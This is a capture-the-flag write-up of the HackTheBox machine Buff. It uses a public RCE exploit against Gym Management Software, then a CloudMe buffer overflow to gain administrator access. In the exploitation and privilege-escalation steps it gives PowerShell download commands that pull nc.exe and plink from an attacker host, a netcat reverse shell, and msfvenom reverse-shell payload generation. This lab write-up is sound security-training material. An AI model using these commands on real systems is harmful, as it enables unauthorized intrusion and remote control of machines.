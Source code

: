 # [HackTheBox] Buff
===============
date: 24/Nov/2020
summary: This is the summary for an awesome post.
tags: hackthebox, writeup

## Overview
![writeup.metadata.infocard](/static/files/posts_htb_buff/infocard.png.webp)

This is a writeup for HackTheBox VM [Buff](https://www.hackthebox.eu/home/machines/profile/263). Here's an overview of the `enumeration` → `exploitation` → `privilege escalation` process:

### Killchain
![writeup.overview.killchain](/static/files/posts_htb_buff/killchain.png)

### TTPs
1\. `8080/tcp/http/Apache httpd 2.4.43 ((Win64) OpenSSL/1.1.1g PHP/7.4.6)`: [enumerate_proto_http](https://github.com/7h3rAm/writeups#enumerate_proto_http), [exploit_gymsystem_rce](https://github.com/7h3rAm/writeups#exploit_gymsystem_rce), [exploit_cloudme_bof](https://github.com/7h3rAm/writeups#exploit_cloudme_bof)  

## Phase #1: Enumeration
1\. Here's the Nmap scan result:  
```
# Nmap 7.80 scan initiated Wed Jul 22 21:04:22 2020 as: nmap -vv --reason -Pn -sV -sC --version-all -oN /home/kali/toolbox/repos/writeupsall/htb.buff/10.10.10.198/scans/_quick_tcp_nmap.txt -oX /home/kali/toolbox/repos/writeupsall/htb.buff/10.10.10.198/scans/xml/_quick_tcp_nmap.xml 10.10.10.198
Nmap scan report for 10.10.10.198
Host is up, received user-set (0.34s latency).
Scanned at 2020-07-22 21:04:36 IST for 101s
Not shown: 999 filtered ports
Reason: 999 no-responses
PORT     STATE SERVICE REASON  VERSION
8080/tcp open  http    syn-ack Apache httpd 2.4.43 ((Win64) OpenSSL/1.1.1g PHP/7.4.6)
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-open-proxy: Proxy might be redirecting requests
|_http-server-header: Apache/2.4.43 (Win64) OpenSSL/1.1.1g PHP/7.4.6
|_http-title: mrb3n's Bro Hut

Read data files from: /usr/bin/../share/nmap
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Wed Jul 22 21:06:17 2020 -- 1 IP address (1 host up) scanned in 114.83 seconds
```

2\. We find '8080/tcp' to be open and running `Apache httpd 2.4.43`. We start by looking at the webpage and find it be hosting a fitness center portal:  

![writeup.enumeration.steps.2.1](/static/files/posts_htb_buff/screenshot01.png)  

3\. We find multiple pages from the `gobuster` scan results and upon visiting `/contacts.php` page, we find that we are interacting with the `Gym Management Software 1.0` web application:  
```
cat ./10.10.10.198/scans/tcp_8080_http_gobuster.txt | grep -v 403
  /ADMIN (Status: 301) [Size: 343]
  /About.php (Status: 200) [Size: 5337]
  /Admin (Status: 301) [Size: 343]
  /Contact.php (Status: 200) [Size: 4169]
  /Home.php (Status: 200) [Size: 143]
  /Index.php (Status: 200) [Size: 4969]
  /LICENSE (Status: 200) [Size: 18025]
  /about.php (Status: 200) [Size: 5337]
  /admin (Status: 301) [Size: 343]
  /boot (Status: 301) [Size: 342]
  /contact.php (Status: 200) [Size: 4169]
  /edit.php (Status: 200) [Size: 4282]
  /ex (Status: 301) [Size: 340]
  /feedback.php (Status: 200) [Size: 4252]
  /home.php (Status: 200) [Size: 143]
  /img (Status: 301) [Size: 341]
  /include (Status: 301) [Size: 345]
  /index.php (Status: 200) [Size: 4969]
  /index.php (Status: 200) [Size: 4969]
  /license (Status: 200) [Size: 18025]
  /packages.php (Status: 200) [Size: 7791]
  /profile (Status: 301) [Size: 345]
  /register.php (Status: 200) [Size: 137]
  /up.php (Status: 200) [Size: 209]
  /upload (Status: 301) [Size: 344]
  /upload.php (Status: 200) [Size: 107]
```

![writeup.enumeration.steps.3.1](/static/files/posts_htb_buff/screenshot02.png)  

### Findings
#### Open Ports
```
8080/tcp   http         Apache httpd 2.4.43 ((Win64) OpenSSL/1.1.1g PHP/7.4.6)
```

## Phase #2: Exploitation
1\. We use `searchsploit` to find exploits for the webapp and find an unauthenticated remote code execution vulnerability. We inspect the exploit and upon executing it, we get a pseudo-interactive shell on the target machine:  
```
python 48506.py http://10.10.10.198:8080/
```

![writeup.exploitation.steps.1.1](/static/files/posts_htb_buff/screenshot03.png)  

![writeup.exploitation.steps.1.2](/static/files/posts_htb_buff/screenshot04.png)  

2\. To get a fully interactive shell, we use powershell to transfer netcat binary, start a local netcat listener and then catch the incoming connection:  
```
nc -nlvp 4433

powershell -c "(new-object System.Net.WebClient).DownloadFile('http://10.10.14.8:8000/nc.exe','C:\Users\shaun\Desktop\nc.exe')"
C:\Users\shaun\Desktop\nc.exe 10.10.14.8 4433 -e cmd.exe
```

![writeup.exploitation.steps.2.1](/static/files/posts_htb_buff/screenshot05.png)  

![writeup.exploitation.steps.2.2](/static/files/posts_htb_buff/screenshot06.png)  

3\. We use this interactive access to read the `user.txt` flag:  
```
type C:\Users\shaun\Desktop\user.txt
```

![writeup.exploitation.steps.3.1](/static/files/posts_htb_buff/screenshot07.png)  

## Phase #2.5: Post Exploitation
```
buff\shaun@BUFF> id
buff\shaun
buff\shaun@BUFF>  
buff\shaun@BUFF> uname
Host Name:                 BUFF
OS Name:                   Microsoft Windows 10 Enterprise
OS Version:                10.0.17134 N/A Build 17134
OS Manufacturer:           Microsoft Corporation
OS Configuration:          Standalone Workstation
OS Build Type:             Multiprocessor Free
buff\shaun@BUFF>  
buff\shaun@BUFF> ifconfig
Windows IP Configuration
  Ethernet adapter Ethernet0:
    Connection-specific DNS Suffix  . :
    IPv6 Address. . . . . . . . . . . : dead:beef::616c:bed8:4b75:6e17
    Temporary IPv6 Address. . . . . . : dead:beef::7813:413b:2e52:5901
    Link-local IPv6 Address . . . . . : fe80::616c:bed8:4b75:6e17%10
    IPv4 Address. . . . . . . . . . . : 10.10.10.198
    Subnet Mask . . . . . . . . . . . : 255.255.255.0
    Default Gateway . . . . . . . . . : fe80::250:56ff:feb9:9eb2%10
                                        10.10.10.2
buff\shaun@BUFF>  
buff\shaun@BUFF> users
Administrator
shaun
```

## Phase #3: Privilege Escalation
1\. We use `winPEAS.exe` to enumerate the target machine and within the `services restricted from the outside` section, find an interesting service bound to `127.0.0.1:8888`:  
```
netstat -anp tcp
```

![writeup.privesc.steps.1.1](/static/files/posts_htb_buff/screenshot08.png)  

2\. We find this to be a `CloudMe` process and there's a binary named `CloudMe_1112.exe` within the `C:\Users\shaun\Downloads` directory that hints that the version could be `1.11.2`:  
```
powershell ps
```

![writeup.privesc.steps.2.1](/static/files/posts_htb_buff/screenshot09.png)  

![writeup.privesc.steps.2.2](/static/files/posts_htb_buff/screenshot10.png)  

3\. We find a buffer overflow exploit for this application that could give us elevated privileges if the `CloudMe` process is running as Administrator:  
```
searchsploit cloudme
```

![writeup.privesc.steps.3.1](/static/files/posts_htb_buff/screenshot11.png)  

4\. But we cannot connect to this service from our attacking machine. We will need to setup a port forward for this exploit to work. We start the SSH service on our attacking machine, transfer the `plink.exe` binary and setup the port forward:  
```
service ssh restart
service ssh status
powershell -c "(new-object System.Net.WebClient).DownloadFile('http://10.10.14.8:8000/plink64.exe','C:\Users\shaun\Desktop\plink.exe')"
C:\Users\shaun\Desktop\plink.exe -v -x -a -T -C -noagent -ssh -pw "kali" -R 8888:127.0.0.1:8888 kali@10.10.14.8
```

![writeup.privesc.steps.4.1](/static/files/posts_htb_buff/screenshot12.png)  

![writeup.privesc.steps.4.2](/static/files/posts_htb_buff/screenshot13.png)  

5\. We update the exploit with the right shellcode, setup a reverse shell to catch incoming connection and run the exploit:  
```
msfvenom -p windows/shell_reverse_tcp lhost=10.10.14.8 lport=443 -b "\x00\x0a\x0d" -f python -a x86 --platform windows -e x86/shikata_ga_nai

sudo nc -nlvp 443
python 48389.py
```

![writeup.privesc.steps.5.1](/static/files/posts_htb_buff/screenshot14.png)  

6\. We immmediately get an elevated reverse shell connection and use it to read the `root.txt` flag:  
```
type C:\Users\Administrator\Desktop\root.txt
```

![writeup.privesc.steps.6.1](/static/files/posts_htb_buff/screenshot15.png)  

## References
* <https://www.hackthebox.eu/home/machines/profile/263>  
